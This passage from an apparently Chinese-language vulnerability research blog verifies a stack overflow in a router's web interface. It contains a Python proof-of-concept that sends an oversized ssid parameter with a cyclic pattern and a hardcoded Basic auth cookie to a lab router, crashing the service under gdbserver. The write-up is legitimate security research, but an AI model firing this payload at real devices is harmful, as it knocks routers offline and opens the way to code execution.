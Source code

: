 ## 0x03 漏洞验证

写了一个 poc 来验证一下：

```python
import requests
import socket
import socks
import urllib
SOCKS5_PROXY_HOST = '127.0.0.1' # socks 代 理 IP地 址 是 用 ssh -D进 行 端 口 转 发 ， 需 要 设 置
代 理
SOCKS5_PROXY_PORT = 9999 # socks 代 理 本 地 端 口

default_socket = socket.socket
socks.set_default_proxy(socks.SOCKS5, SOCKS5_PROXY_HOST, SOCKS5_PROXY_PORT)
socket.socket = socks.socksocket
session = requests.Session()
session.verify = False

def exp(path,cookie):
		headers = {
      	"User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36
(KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36",
				"Cookie":"Authorization=Basic{cookie}".format(cookie=str(cookie))}

    payload="/%0A"*0x55 + "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaac"

		params = {
        "mode":"1000",
				"curRegion":"1000",
				"chanWidth":"100",
				"channel":"1000",
				"ssid":urllib.request.unquote(payload)
		}
    url="http://172.17.221.20:80/{path}/userRpm/popupSiteSurveyRpm_AP.htm".for	mat(path=str(path))


		
    resp = session.get(url,params=params,headers=headers,timeout=10)
		print (resp.text)

exp("TFDTDFTCUJPCWNEB","%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D")
```
使用 wireshark 抓包，查看发送的数据包，也可以使用 burp 抓包：

![在这里插入图片描述](https://img-blog.csdnimg.cn/20200413110020662.png)

- 注意这里的 ssid 里的内容需要加上 `unquote` 函数对 %0A 先进行解码，因为 python requests 发送数据包时会默认对参数值进行编码。

结果会发现远程路由器服务崩溃，gdbserver 抛出了 SIGSEGV 的栈溢出信号。
